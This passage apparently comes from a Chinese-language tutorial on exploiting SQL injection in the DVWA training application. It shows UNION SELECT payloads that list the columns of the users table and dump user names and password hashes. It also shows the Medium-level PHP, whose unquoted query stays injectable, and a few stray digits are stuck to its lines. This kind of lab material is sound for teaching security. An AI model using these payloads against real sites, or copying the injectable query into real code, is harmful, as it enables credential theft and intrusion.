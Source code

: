 

说明数据库dvwa中一共有两个表，guestbook与users。



### **6.获取表中的字段名**



输入1′ union select 1,group\_concat(column\_name) from information\_schema.columns where table\_name=’users’ #，查询成功：



[![1.png](http://image.3001.net/images/20161122/14797985937424.png!small)](http://image.3001.net/images/20161122/14797985937424.png)



说明users表中有8个字段，分别是user\_id,first\_name,last\_name,user,password,avatar,last\_login,failed\_login。



### **7.下载数据**



输入1′ or 1=1 union select group\_concat(user\_id,first\_name,last\_name),group\_concat(password) from users #，查询成功：



[![1.png](http://image.3001.net/images/20161122/14798012126751.png!small)](http://image.3001.net/images/20161122/14798012126751.png)



这样就得到了users表中所有用户的user\_id,first\_name,last\_name,password的数据。



****Medium****

--------------



服务器端核心代码



```
<?php        
if( isset( $_POST[ 'Submit' ] ) ) {       
    // Get input       
    $id = $_POST[ 'id' ];       
    $id = mysql_real_escape_string( $id );        
    // Check database       
    $query  = "SELECT first_name, last_name FROM users WHERE user_id = $id;";       1
    $result = mysql_query( $query ) or die( '<pre>' . mysql_error() . '</pre>' );        1
    // Get results       1
    $num = mysql_numrows( $result );       1
    $i   = 0;       1
    while( $i < $num ) {       1
        // Display values       1
        $first = mysql_result( $result, $i, "first_name" );       1
        $last  = mysql_result( $result, $i, "last_name" );        2
        // Feedback for end user       2
        echo "<pre>ID: {$id}<br />First name: {$first}<br />Surname: {$last}</pre>";        2
        // Increase loop count       2
        $i++;       2
    }        2
    //mysql_close();       2
}        3
?>
```
